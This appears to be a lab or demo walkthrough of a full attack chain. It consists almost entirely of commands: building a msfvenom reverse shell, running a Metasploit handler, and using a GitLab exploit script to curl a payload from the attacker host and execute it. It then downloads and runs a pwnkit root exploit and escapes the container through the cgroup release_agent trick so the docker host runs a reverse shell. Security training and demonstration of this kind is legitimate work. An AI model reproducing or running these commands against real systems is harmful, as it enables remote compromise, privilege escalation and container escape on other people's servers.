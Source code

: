 Create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.59.1 LPORT=4243 -f elf > met-host
```

Start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

Execute the GitLab exploit

```bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://127.0.0.1 -c 'curl -vk http://192.168.59.1:8001/met-container -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://127.0.0.1 -c 'chmod 777 /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://127.0.0.1 -c '/tmp/met'
```

Now you have a reverse meterpreter connection from the container, type `shell` to get a bash.

Get root within the GitLab container

```bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```

Execute the following commands in your GitLab root shell to get a root shell from the docker host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://192.168.59.1:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
